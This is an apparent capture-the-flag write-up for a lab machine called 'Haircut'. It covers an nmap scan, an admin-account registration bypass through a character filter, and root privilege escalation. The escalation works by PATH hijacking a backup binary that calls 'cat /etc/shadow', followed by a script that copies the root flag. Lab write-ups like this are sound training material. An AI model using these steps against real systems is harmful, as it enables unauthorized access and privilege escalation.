 # Haircut

## Information Gathering

Running nmap
```
# Nmap 7.70 scan initiated Fri Jul 19 10:47:41 2019 as: nmap -sV -sC -oA nmap/lazy 10.10.10.18
Nmap scan report for 10.10.10.18
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 e1:92:1b:48:f8:9b:63:96:d4:e5:7a:40:5f:a4:c8:33 (DSA)
|   2048 af:a0:0f:26:cd:1a:b5:1f:a7:ec:40:94:ef:3c:81:5f (RSA)
|   256 11:a3:2f:25:73:67:af:70:18:56:fe:a2:e3:54:81:e8 (ECDSA)
|_  256 96:81:9c:f4:b7:bc:1a:73:05:ea:ba:41:35:a4:66:b7 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: CompanyDev
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We can see web server on port 80.

## Exploitation

Because of poor character filtration We can register user "admin=", "=" will be filtered out and we will get admin account eventually.
On admin page we can find the link to ssh private key.

## PrivEsc
There is a binary in user's category called "backup".
If we run strings command we can see this line:
```
cat /etc/shadow
```
There is no full path of cat, so we can privesc by redefining the command. This can be achieved by setting the working
directory as the first option in PATH, with the command
```
export PATH=.:$PATH
```
After this, creating a file named cat in the working directory will cause the file to be executed by the root user. In this case, a bash script will do the trick. Note, do not use the cat command in the script as this will cause the script to loop endlessly. Don’t forget to chmod +x ./cat before running
the backup binary. The script below creates a copy of the root flag in the home directory
```
#! /bin/bash
more /root/root.txt > /tmp/root.txt
```
